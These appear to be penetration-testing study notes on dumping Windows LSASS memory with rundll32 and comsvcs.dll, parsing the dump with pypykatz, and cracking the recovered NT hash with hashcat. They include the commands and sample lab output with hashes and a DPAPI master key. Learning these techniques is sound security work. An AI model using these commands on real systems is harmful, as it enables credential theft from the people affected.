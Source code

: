 ## Dumping LSASS Process Memory
![[Pasted image 20240723123804.png]]
A file called `lsass.DMP` is created and saved in:
```cmd
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
#### Rundll32.exe & Comsvcs.dll Method
- We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). 
- This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.
#### Finding LSASS PID in cmd
```cmd
tasklist /svc
```
#### Finding LSASS PID in PowerShell
```powershell
Get-Process lsass
```
#### Creating lsass.dmp using PowerShell
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
## Pypykatz to Extract Credentials
```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
#### MSV
- [MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. 
- Pypykatz extracted the `SID`, `Username`, `Domain`, and even the `NT` & `SHA1` password hashes associated with the bob user account's logon session stored in LSASS process memory.
```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```
#### WDIGEST
- `WDIGEST` is an older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. 
- LSASS caches credentials used by WDIGEST in clear-text.
```
== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```
#### Kerberos
- [Kerberos](https://web.mit.edu/kerberos/#what_is) is a network authentication protocol used by Active Directory in Windows Domain environments. 
- Domain user accounts are granted tickets upon authentication with Active Directory.
```
== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```
#### DPAPI
- The Data Protection Application Programming Interface or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications.
```
== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```
#### Cracking the NT Hash with Hashcat
```shell
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```